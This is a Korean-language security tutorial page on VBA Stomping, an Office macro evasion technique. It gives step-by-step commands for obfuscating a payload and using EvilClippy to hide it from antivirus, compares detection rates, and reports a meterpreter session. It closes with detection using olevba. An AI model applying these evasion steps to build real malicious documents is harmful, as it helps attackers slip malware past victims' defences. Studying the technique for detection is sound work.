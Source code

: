 # VBA Stomping

VBA Stomping 은 2018년도 Derbycon 에서 Harold Ogden (@haroldogden), Kirk Sayre (@bigmacjpg) and Carrie Roberts (@OrOneEqualsOne) 가 Dr. Vesselin Bontchev 박사의 P-code 연구를 보고 영감을 받아 만들어낸 VBA 매크로 방어 우회 기법 중 하나다.&#x20;

VBA 매크로는 총 3가지 형태로 오피스 제품에 저장된다:&#x20;

1. 소스코드 - 실제로 작성된 VBA 매크로의 소스코드가 압축된 형태&#x20;
2. P-code - #1번을 기반으로 컴파일된 어셈블리어와 비슷한 형태 - 캐시된 형태로, 똑같은 오피스 버전에서 열리면 소스코드가 아닌 P-code가 대신 실행된다&#x20;
3. Execode - P-Code가 여러번 실행될 시 P-code를 tokenize 한 형태로 저장되는 형태 - 이건 일단 무시한다.&#x20;

여기서 재밌는 점은 소스코드를 flexhex 등의 툴을 이용해 다른 VBA 매크로로 변경해도 P-code는 이전 소스코드를 담고 있다는 것이다. 예를 들어,&#x20;

* 소스코드 - 악성 VBA
* P-code - 악성 VBA

의 형태로 저장되어 있는 문서를 flexhex 등의 툴로 열어 소스코드 바이트를 직접 수정해주면&#x20;

* 소스코드 - 평범한 VBA, 혹은 null-byte 형태로 아무것도 없는 VBA
* P-code - 악성 VBA

위 상태가 되며, 이 상태로 문서를 열면 소스코드가 아니라 P-code 가 실행된다. 유의할 점은 만들어진 오피스 버전과 문서가 열리는 오피스 버전이 같아야 P-code 가 실행된다는 것이다. 따라서 공격자의 입장에서는 피해자 호스트에 어떤 오피스 제품이 설치되어 있는지를 알아낸 다음에 사용할 수 있는 기법이다. 이는 이메일 헤더와 유저 에이전트 등으로 정보 수집을 통해 알아낼 수 있다.&#x20;

### 실습&#x20;

[오피스 VBA 매크로 페이지](vba-macros.md)에서 사용했던 코드를 그대로 사용한다. 단, 작전보안을 위해 [VisualBasicObfuscator](https://github.com/mgeeky/VisualBasicObfuscator)를 이용해 코드를 난독화한다. 스키디의 악용을 막기 위해 툴의 라인 647에서 발생하는 에러를 고치는 법은 따로 설명하지 않는다.&#x20;

```
https://github.com/mgeeky/VisualBasicObfuscator.git

# range() 함수와 관련해서 간단한 수정을 하면 제대로 실행된다. 
647# for s in range(len(longLine) / SPLIT + 1):

# 난독화 진행 
┌──(root㉿kali)-[/opt/VisualBasicObfuscator]
└─# python3 obfuscate.py payload.vbs -o payload-obfuscated.vbs

    :: Visual Basic script obfuscator for thy red teaming needs!
    Mariusz Banach / mgeeky, '17, '20; <mb [at] binary-offensive.com>
    v: 0.2

[+] Input file:         payload.vbs
[+] Output file:        payload-obfuscated.vbs
[+] Input file length: 1205
[+] Obfuscated file length: 5742
[+] Obfuscated code has been written to:
                payload-obfuscated.vbs
```

이후 VBA Stomping에 사용될 가짜 VBA 코드를 준비한다. 이제 VBA 소스코드는 가짜 VBA 코드로 덮어씌워지고, P-code에는 위에서 만든 악성 VBA 코드가 제대로 들어가 있을 것이다. 이는 추후 대응방안 섹션에서 확인한다.&#x20;

EvilClippy 툴을 이용해 VBA stomping 과 메타데이터 삭제, 모듈 이름 랜덤화, GUI에서 VBA 감추기 등의 방어 우회 기법을 적용한다.&#x20;

VBA Stomping에 사용될 가짜 VBA 코드는 다음과 같다.&#x20;

```
Sub Document_Open()
    Macro1
End Sub

Sub AutoOpen()
    Macro1
End Sub

Sub Macro1()
'
' Macro1 Macro
'
'
    Range("B1").Select
    ActiveCell.FormulaR1C1 = "Hello World"
    Range("B2").Select
End Sub
```

이제 EvilClippy를 사용해 VBA Stomping을 진행한다.&#x20;

```
 # EvilClippy 설치 - Visual studio -> x64 Native Tools command prompt 
 csc /reference:OpenMcdf.dll,System.IO.Compression.FileSystem.dll /out:EvilClippy.exe *.cs
 
 # EvilClippy 사용 
 .\EvilClippy.exe -s .\fakecode.vba .\sample-payload-obs.doc -g -d -r -u 
```



VBA Stomping 과 난독화를 진행하지 않은 일반 페이로드의 탐지율을 확인해보자.&#x20;

![일반 페이로드 ](<../../.gitbook/assets/image (5) (1) (1).png>)

VBA stomping만 적용한 페이로드의 탐지율을 다음과 같다.&#x20;

![VBA stomping을 적용한 페이로드](<../../.gitbook/assets/image (11) (1) (1).png>)

VBA stomping과 난독화를 둘 다 적용한 페이로드다. 몇몇 AV들은 스캔을 포기한 것을 볼 수 있다.

![VBA stomping과 난독화를 적용한 페이로드 ](<../../.gitbook/assets/image (9) (1).png>)



이후 페이로드를 실행하면 meterpreter가 돌아온다.&#x20;

![](../../.gitbook/assets/vba-stomping-2.gif)

### 분석/대응 방안&#x20;

VBA Stomping 기법과 P-code의 악용 방법은 2018년도에 나왔기 때문에 2022년도 기준으로 많은 툴들이 이를 탐지한다. 예를 들어 [oletools](https://github.com/decalage2/oletools/wiki/olevba) 툴을 이용해 VBA Stomping 기법을 적용한 파일을 분석해보자.&#x20;

olevba 를 통해 분석해보면 다음과 같은 VBA 매크로와 P-code가 나온다.&#x20;

![](<../../.gitbook/assets/image (10) (1).png>)

VBA 매크로인 `Macros/VBA/ThisDocument` 과 `Macros/VBA/NewMacros` 에서는 수상한 VBA 매크로가 발견되지 않는다. EvilClippy가 위에서 가짜 VBA 매크로로 VBA Stomping을 진행했기 때문이다.&#x20;

하지만 P-code 섹션을 보면 원래 있었던 VBA 페이로드가 보인다. 난독화를 진행했기 때문에 `Create, ShowWindow, Xor, Base64 Strings, VBA Stomping` 등의 수상한 키워드들이 보인다.&#x20;

`ThisDocument` 와 `NewMacros` 의 코드는 다음과 같이 나온다&#x20;

```
┌──(root㉿kali)-[~/blog]                                                                              
└─# olevba -a sample-payload_EvilClippy.doc -c                                 
olevba 0.60.1 on Python 3.10.4 - http://decalage.info/python/oletools                                 
===============================================================================
FILE: sample-payload_EvilClippy.doc                                                                   
Type: OLE                                                                                             
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls                                                                            
in file: sample-payload_EvilClippy.doc - OLE stream: 'Macros/VBA/ThisDocument' 
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -  
Sub Document_Open()                                                                                   
    Macro1                                                                                            
End Sub                                                                                               
                                                                                                      
Sub AutoOpen()                                                                                                                                                                                               
    Macro1                                                                                            
End Sub                                                                                               
                                                   
Sub Macro1()                                                                                          
'                                                                                                     
' Macro1 Macro                                                                                        
'                                                                                                     
'                                                                                                     
    Range("B1").Select                                                                                
    ActiveCell.FormulaR1C1 = "Hello World"                                                            
    Range("B2").Select                                                                                
End Sub                              
```

그 이후 P-code를 살펴보면 다음과 같은 코드가 나온다. 난독화된 VBA 코드가 또 다시 P-code 형태로 변했기 때문에 읽기 힘들지만, 적어도 악성 행위를 하는 VBA를 살펴볼 수는 있다.&#x20;

```
VBA MACRO VBA_P-code.txt                                                                                                                                                                                     
in file: VBA P-code - OLE stream: 'VBA P-code'                                                        
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -                         
' Processing file: sample-payload_EvilClippy.doc                                                      
' ===============================================================================                                                                                                                            
' Module streams:
' Macros/VBA/ThisDocument - 922 bytes
' Macros/VBA/NewMacros - 9204 bytes
' Line #0:
'       FuncDefn (Sub Document_Open())
' Line #1:
'       ArgsCall test 0x0000 
' Line #2:
'       EndSub 
' Line #3:
'       FuncDefn (Sub AutoOpen())
' Line #4:
'       ArgsCall test 0x0000 
' Line #5:
'       EndSub 

< ... >
                                                                                                                                                                                            
' Line #142:                                                                                                                                                                                                 
'       Ld EqKwFzDJ                                                                                                                                                                                          
'       Ld EqKwFzDJ 
'       FnLen 
'       Ld Ivtp83Fcz 
'       Sub 
'       ArgsLd Left$ 0x0002 
'       St EqKwFzDJ 
' Line #143:
'       EndIfBlock 
' Line #144:
'       Ld EqKwFzDJ 
'       St O9sTsRbm 
' Line #145:
'       EndFunc 
' Line #146:

```



### 레퍼런스&#x20;

{% embed url="https://github.com/bontchev/pcodedmp" %}

{% embed url="https://vbastomp.com/" %}

{% embed url="https://medium.com/walmartglobaltech/vba-stomping-advanced-maldoc-techniques-612c484ab278" %}

{% embed url="https://outflank.nl/blog/2019/05/05/evil-clippy-ms-office-maldoc-assistant/" %}

{% embed url="https://github.com/sevagas/macro_pack" %}

{% embed url="https://github.com/outflanknl/EvilClippy" %}
